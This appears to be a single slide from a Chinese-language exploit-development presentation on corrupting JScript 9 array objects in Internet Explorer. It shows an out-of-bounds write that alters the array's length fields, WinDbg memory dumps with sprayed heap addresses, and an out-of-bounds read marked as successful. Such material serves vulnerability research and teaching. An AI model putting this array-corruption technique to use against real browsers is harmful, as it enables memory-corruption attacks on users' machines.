

# 自动修改 JScript 9 数组对象
但是越界写入是可以成功执行的，并且在写入的同时，另外两处长度值也会被相应地修改
intArr[0x00200200] = 0x22222222;

0:004> dc 01c3f9c0 l 4*2
01c3f9c0  6eb74534 031f6940 00000000 00000001  4E.n@i..........
01c3f9d0  00200201 0d0d0010 0d0d0010 00000000  .. .............
0:004> dc 0d0d0010-10 l 4*3
0d0d0000  00000000 0007fff0 00000000 00000000  ................
0d0d0010  00000000 00200201 30000000 00000000  ...... ....0....
0d0d0020  11111111 11111111 11111111 11111111  ................
var outofbounds = intArr[0x40000]; // success